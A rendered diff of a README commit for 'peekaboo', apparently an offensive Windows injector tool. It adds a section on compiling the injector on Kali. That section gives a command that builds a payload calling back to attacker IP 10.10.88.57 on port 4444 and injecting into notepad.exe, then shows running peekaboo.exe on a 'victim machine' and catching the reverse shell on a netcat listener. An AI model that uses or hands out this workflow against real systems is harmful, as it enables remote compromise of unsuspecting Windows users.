

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around the change printed below. Shown: that part at 89% size. GitHub-like rendering; pictures changed too: screenshots/12.png (added), screenshots/13.png (added); blank space fills up the shorter version.

Commit message:
update readme: add screenshots for cross compile in kali

````diff
--- a/README.md
+++ b/README.md
@@ -77,6 +77,24 @@ check your netcat listener:
 
 ![check netcat listener](./screenshots/10.png?raw=true)
 
+## 3. UPDATTE: Compile injector on kali linux (but only console .exe now)
+run python script on linux (for example process `notepad.exe`):
+```bash
+python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
+```
+
+![encrypting and compile](./screenshots/12.png?raw=true)
+
+### then on victim machine (windows 10 x64):
+```cmd
+.\peekaboo.exe
+```
+
+### check on attacker machine:
+check your netcat listener:
+
+![check netcat listener](./screenshots/13.png?raw=true)
+
 ## Issues.
 Tested on:
 1. Attacker machines: Kali linux 2020.1, Windows 10 x64
````
Also changed, not shown: other parts of README.md (+3 -1 lines).
